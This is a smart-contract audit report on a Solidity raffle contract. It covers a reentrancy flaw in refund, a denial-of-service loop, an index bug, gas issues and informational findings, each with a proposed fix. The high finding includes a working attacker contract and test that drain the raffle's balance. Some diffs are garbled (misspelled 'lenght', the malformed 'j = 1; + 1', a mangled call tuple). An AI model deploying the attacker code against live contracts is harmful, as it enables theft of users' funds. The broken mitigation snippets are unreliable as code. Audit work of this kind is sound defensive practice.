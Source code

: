 ### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Check, Effects, Interactions) and as a result, enables participants to drain contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

<details>

```javascript
   function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

</details>

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant.

**Proof of Concept:**

1. User enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle.
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

**Proof of Code**
Place the following into `PuppyRaffleTest.t.sol`

<details>
<summary>Code</summary>

```javascript
 function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReetrancyAttacker attackerContract = new ReetrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        // attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker contract balance: ", startingAttackContractBalance);
        console.log("starting contrackt balance:", startingContractBalance);

        console.log("ending attacker contract balance", address(attackerContract).balance);
        console.log("ending contract balance", address(puppyRaffle).balance);
    }
```

And this contract as well:

```javascript
contract ReetrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle:refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [M-#] Looping through players array to check to duplicates in `PuppyRaffel::enterRaffel` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle stats will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```javascript
// @audit Dos Attack
 for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
```

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later user from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas cost will be as such:

- 1st 100 players: -6252048 gas
- 2nd 100 players: -18068138 gas

This is more than 3x more expensive for the second 100 players.

<details>
<summary>PoC</summary>

Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
function test_denialOfService() public {
        vm.txGasPrice(1);

        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players", gasUsedFirst);

        // now for the 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }
        // see how much gas it cost
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }
}

```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallets address anyways, so duplicate check dosen't prevent the same person form entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

# Low

### [L-1] `PuppyRaffle:getActivePlayerIndex` return 0 for non-existing players and for players at index 0, causing a player at index 0 to incorrectly think they hva not entered the raffle

**Description:** If a player is in the `PuppyRaffle:players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```javascript
     function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }

```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enter the raffle. they are the first entrant.
2. `PuppyRaffle::getActivePlayerIndex` return 0.
3. User thinks they have not entered correctly due to the function documentation.

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

You could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not active.

# Gas

## [G-1] Unchanged state variables should be declared constant or immutable.

Reading form storage is much more expensive than reading from a constant or immutable variables.

Instances:

- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`

### [G-2] Storage variable in a loop should be cached

Everytime you call `players.lenght` you read from storage, as opposed to memory whice is more gas afficient.

```diff
+    uint256 playerLength = players.lenght;
-    for (uint256 i = 0; i < players.length - 1; i++) {
+    for (uint256 i = 0; i < playersLength - 1; i++) {
-           for (uint256 j = 1; + 1; j < players.length; j++) {
+           for (uint256 j = 1; + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

```

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. FO for example, instead of `pragma solidity ^0.8.0` use `pragma solidity 0.8.8`

- Found in src/PuppyRaffle.sol: 32:23:35

### [I-2] Using an outdated version of Solidity is not recommended

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend complex pragma statement.

**Recommendations**
Deploy with any of the following Solidity versions:

`0.8.18`
The recommendations take into account:

- Risk related to recent releases
- Risk of complex cod generation changes
- Risk of new language features
- Risk of known bugs
- Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Rising checks for `address(0)` when assigning values to address state variable

Assigning values to address state variables without checking for `address(0)`

- Found in src/PuppyRaffle.sol: 8862:23:35
- Found in src/PuppyRaffle.sol: 3165:24:35
- Found in src/PuppyRaffle.sol:m 9809:26:35

### [i-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not best practice.

It`s best to keep code clean and follow CEI (Checks, Effects, Interactions)

```diff
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner)
        _safeMint(winner, tokenId)
+       (bool success) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize to winner"):

```
